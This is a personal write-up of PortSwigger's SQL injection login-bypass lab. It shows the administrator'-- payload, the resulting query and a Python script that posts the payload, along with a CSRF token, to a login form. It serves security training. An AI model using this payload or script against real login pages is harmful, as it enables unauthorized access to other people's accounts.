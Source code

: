 ```yaml
---
title: "Portswigger SQL Injection Lab 2"
description: "SQL injection vulnerability allowing login bypass"
date: 2025-05-31T12:17:20+05:45
cheatsheet_categories: ["Labs"]
cheatsheet_tags: ["error based sql injection", "pentesting", "sql injection", "portswigger"]
folder: "sqlinjection"
draft: false
weight: 1
---
```


## Lab: [](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass)

> This lab contains a SQL injection vulnerability in the login function.
	To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---
### Finding SQLI
Trying SQL characters, here `'` to check if the server is vulnerable to SQLI
Using burp-repeater to send `administrator'` as username gives -> **Internal Server Error** -> SQLi existence confirmed
![[sqli-lab2-burp-repeater.png]]

### Guessing Backend Query
```sql
	SELECT user from users WHERE username='admin' and password='admin'
```
### Attacking
Using the SQLi `administrator'-- ` results in the following query:
```sql
	SELECT user from users WHERE username='administrator'-- and password='admin'
```
If the administrator user exists, we will be authenticated as the password is skipped using the injection

 **Used payload->**  `administrator'--`  
---
# Pythonizing for Automating 
```python
import sys
import requests
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'} 

def get_csrf_token(sess,url):
    req=sess.get(url, verify=False, proxies=proxies)
    token=BeautifulSoup(req.text, 'html.parser')
    csrf=token.find("input")['value']
    print(f"CSRF: {csrf}")
    return csrf

def exploit_sqli(sess, url,payload):
    csrf=get_csrf_token(sess,url)
    form_data={
        "csrf" : csrf,
        "username" : payload,
        "password" : "anything"
    }
    res = sess.post(url, data=form_data, verify=False, proxies=proxies)
    if "Update email" in res.text:
        return True
    else:
        return False
    
if __name__=="__main__":
    try:
        url= sys.argv[1].strip()
        payload=sys.argv[2].strip()
    except IndexError:
        print(f"[ - ] Usage: {sys.argv[0]} <URL> <Payload>")
    
    sess = requests.Session()
    if exploit_sqli(sess, url, payload):
        print("Successful")
    else:
        print("Unsuccessful")
```




%%
# Excalidraw Data
## Text Elements
%%
## Drawing
```compressed-json
N4KAkARALgngDgUwgLgAQQQDwMYEMA2AlgCYBOuA7hADTgQBuCpAzoQPYB2KqATLZMzYBXUtiRoIACyhQ4zZAHoFAc0JRJQgEYA6bGwC2CgF7N6hbEcK4OCtptbErHALRY8RMpWdx8Q1TdIEfARcZgRmBShcZQUebTiADho6IIR9BA4oZm4AbXAwUDAiiBJuCAAxAEYeAFEAGSEAaQAlTShiAC0ASQBrAHkAYQoARyFiADZkoshYRDKAM0CETyp+

YsxuHgB2AGZtLYBWNcgYbmcdhK3jiAoSdW4ABm0Hl8rryQRCZWlH59fr6zKYKPa7MKCkNg9BADNj4NikMoAYkqCBRKKmxU0uGwPWUEKEHGIMLhCIk4OszDguECmQxkHmhHw+AAyrBgRJBB46RAwRCoQB1O6STag8GQhCsmDs9Cc0rXfHfDjhbJoN75SBsKnYNSnVUva544RwLrEFWoHIAXWui1w6RN3A4QiZ10IhKwZVwD25+MJSuYZsdzvVPIQy

24lUOCQALJUdgdKuNrowWOwuGgjsHk6xOAA5ThiTZRqM7ACcWwjfGDhGYABFUlAw2hwUIENdNMJCTVgulMgGnfhrkI4MRcA3iOGtjxYwl41txlGHmrphAiBweg7+9c4TjG6h5gQwtc4GxXVlcuqwHlpkUHscbxerRer9eni9F3ewK/Xg/1Y/l3BAn9ERwlyP9ilYfQnVHBAAAVAOYYDuGbVtg3wUIoBhfR9DUMcYJPWk0GfG8/nfC8v0XX98gAXz

WQpilKCQhB4DpnAAQXGYZWNwHgowAITEGBmQACQADWcGoAH1uVmcR0EWUMVm5DY0C2BJxn2DNl11VBnCjA4EmuW5iHuNByKXYoPi+H5TJI8zIEBaVb2DXlxWJeEkTRVEkDbbFcR9IlYXcslyA4SlqQyKBuQZJlJWlHlYTlZyxQFIURSSvkJTZWT4q5eVhEVZVw2uTVsR1cN9WDQ0hxNM1LWtcg7XHNBAwHKs3WU9BcEqb0O2IP0+yDZcwl3HgHhL

KNxhLA4Sx4pMmGzNNUE04os1TPMOALNAdkqB4EkqGddpdWt613ZC216rs0gigbWuXIcRzHCcpwueMEh2csdi3V112azdULYHcmr3A8UP/fCz0Ip8L0/D8HgfO8iOIt87KR79rwtX8j3g4DarAgRCEgtCGzg5VEKbUgWy3dDMOwmRljw09zxfWy7zMyiiio8A/wgXA4DgVloO4OjoA+dIyiIb5IrWBhCAQCheN8qrCTc0l0EReYNc1jEIGwEQaSgL

oG30VkMpVjyvPRaXddIfXDbSBWcSVgKSTKclQqpfXtet22jfKRkWSyspZXHK29Yiu3jeShBBWM4U0ErYpvfDo2TfFWLsuDr2w8yCPmnyyR+qK/Idezg2jb6LUyr1JzE9LiPyk4KByltRltPMkubeTtIG8yZlCCMWTRtDzuc6NgAVLAoFYiXFpXBB5il4uk9HtIBdIKebbYCgPlwIGWuHn20hqQlWM37eQiBnmz+15hsAhJkRO4VT1MOaXb/v/AAE

1uAmgzi6MNgBghaZgIC2cM1ED5d30HnAkfVCoSH8trPEJA+4Dw3INSAyDnZBVQHRSAvFYSX0RAMEsJCSHlHKNyZoCBlBQVVhARENQaxMKYRQiAECl6l1TlCCuUBUw3WlgBBAZhhDMAAOKkBQf3WS+9i42nSNQt0kiODKGAcuDIuBNDBCBmdYM2AiBwCQhTUGxQOC2lkro5cwgoCrgscYjhxQ7AACsEDYCyMyMxcAACybBiAIGPpo7R3B9z4DCOAG

idBoogTQMATmVEgA
```
%%